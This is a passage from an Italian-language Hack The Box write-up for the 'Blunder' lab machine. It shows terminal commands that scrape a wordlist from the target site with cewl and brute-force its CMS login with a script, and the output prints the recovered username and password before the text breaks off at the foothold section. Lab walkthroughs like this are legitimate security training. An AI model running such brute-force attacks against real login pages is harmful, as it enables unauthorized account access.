 ```bash
┌──(root㉿kali)-[/home/kali/htb/blunder]
└─# cewl http://10.10.10.191 > wordlist.txt

┌──(root㉿kali)-[/home/kali/htb/blunder]
└─# ls
48942.py  wordlist.txt
```

siamo pronti per eseguilo 

```bash
┌──(root㉿kali)-[/home/kali/htb/blunder]
└─# ./bludi_brute.py wordlist.txt
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

Utilizziamo le credenziali trovate per accedere al sito 

![](../zzz_rev/attachments/blunder2.png)


# GAINING AN INITIAL FOOTHOLD

## Manual Foothold
